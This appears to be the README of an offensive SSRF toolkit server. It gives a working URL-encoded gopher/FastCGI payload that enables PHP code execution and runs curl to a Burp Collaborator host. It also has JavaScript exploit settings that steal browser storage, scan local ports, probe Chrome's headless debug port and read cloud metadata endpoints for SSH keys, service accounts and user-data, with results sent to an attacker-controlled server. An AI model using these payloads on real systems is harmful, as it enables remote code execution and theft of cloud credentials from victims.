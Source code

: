 # Installation

```
npm install express
```

# How To Run

```
node server.js
```

## Available Exploits And Tools
* Browser Storage Leak
* Chrome Headless Debug Enabled
* Leak Browser Information (Plugins, versions, etc ...)
* Cloud Metadata Information
* Local Port Scanner
* Open redirect

# How To Use

## Open Redirect
Any request that starts with **/openredirect** will redirect to the passed URL in the **url** parameter with the given scheme and parameters. You can abuse of the **gopher://** scheme to get remote code execution.

**Redirect to Google Example:** http://127.0.0.1:2222/openredirect?url=https://www.google.com

**Exploit Fastcgi RCE example:** http://127.0.0.1:2222/openredirect?url=gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH108%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00l%04%00%3C%3Fphp%20system%28%27curl%20dm3lxhjmrekd2fwnsns1r1iin9t0hp.burpcollaborator.net%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

## Browser Storage Leak, Chrome Headless Debug Enabled, Leak Browser Information (Plugins, versions, etc ...), Cloud Metadata Information and Local Port Scanner

You need to edit the HTML page located at htmls/js-exploits.html (every request to the root page will trigger this HTML). 

#### Inportant: 
Edit the value of **collaboratorServer**  to your burp collaborator or log server, because this is how the server will retrieve the sensitive information.

```
//Collaborator server to receive info
var collaboratorServer = "ysu632p7xzqy8028y8ymxmo3tuzkn9.burpcollaborator.net";
```

If you don't have a log or burp collaborator server, this server has one in the **/log** path:

**Example:** http://127.0.0.1:2222/log?msg=LOGTHIS

**Server Log Output**:

```
Connection received: ::ffff:127.0.0.1
/log?msg=LOGTHIS
```

To use this server log you just need to edit the value of **collaboratorServer** to your IP address and port:

**Example (External IP):** 

```
//Collaborator server to receive info
var collaboratorServer = "208.12.33.44:2222";
```

#### JS Exploits and Tools
Uncomment the following lines that call the respective exploit function that you want:

```
//Browser Storage Leak
//localStorageLeak();

//Try to fetch Chrome Headless debug port
//chromeHeadless();

//Get browser information (Plugins, versions, etc ...)
//getBrowserInfo();

//GET Cloud metadata information
//cloudMetadata(googleMetadataServer, googleMetadataPaths, googleHeaders);

//Local port scanner
//portScanner("127.0.0.1", communPorts);
```

To help you, I already hardcoded some metadata servers and their paths to leak the desired information:

```
//Google Cloud
var googleMetadataServer = "metadata.google.internal";
var googleMetadataPaths = {"SSH-Keys: ": "/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json", "Service Accounts: ": "/computeMetadata/v1/instance/service-accounts/?recursive=true&alt=json", "Hostname: ": "/computeMetadata/v1/instance/hostname"}
var googleHeaders = {"X-Google-Metadata-Request": "true"}

//Alibaba Cloud
var alibabaMetadataServer = "100.100.100.200";
var alibabaMetadataPaths = {"SSH-Keys: ":"/latest/meta-data/public-keys/0/openssh-key", "Hostname: ": "/latest/meta-data/hostname", "User-Data: ": "/latest/user-data"};

//Amazon AWS & D.O
var othersMetadataServers = "169.254.169.254";

//Amazon
var amazonMetadataPaths = {"SSH-Keys: ": "/latest/meta-data/public-keys/0/openssh-key", "Hostname: ": "/latest/meta-data/public-hostname", "AMI-ID: ": "/latest/meta-data/ami-id"};

//Digital Ocean
var digitalOceanPaths = {"User-data": "/metadata/v1/user-data", "Hostname: ": "/metadata/v1/hostname", "SSH-Keys: ": "/metadata/v1/public-keys"}

//Local port scanner | Commun ports
var communPorts = [80, 81, 300, 443, 591, 593, 832, 981, 1010, 1311, 2082, 2087, 2095, 2096, 2480, 3000, 3128, 3333, 4243, 4567, 4711, 4712, 4993, 5000, 5104, 5108, 5800, 6543, 7000, 7396, 7474, 8000, 8001, 8008, 8014, 8042, 8069, 8080, 8081, 8088, 8090, 8091, 8118, 8123, 8172, 8222, 8243, 8280, 8281, 8333, 8443, 8500, 8834, 8880, 8888, 8983, 9000, 9043, 9060, 9080, 9090, 9091, 9200, 9443, 9800, 9981, 12443, 16080, 18091, 18092, 20720, 28017]
```
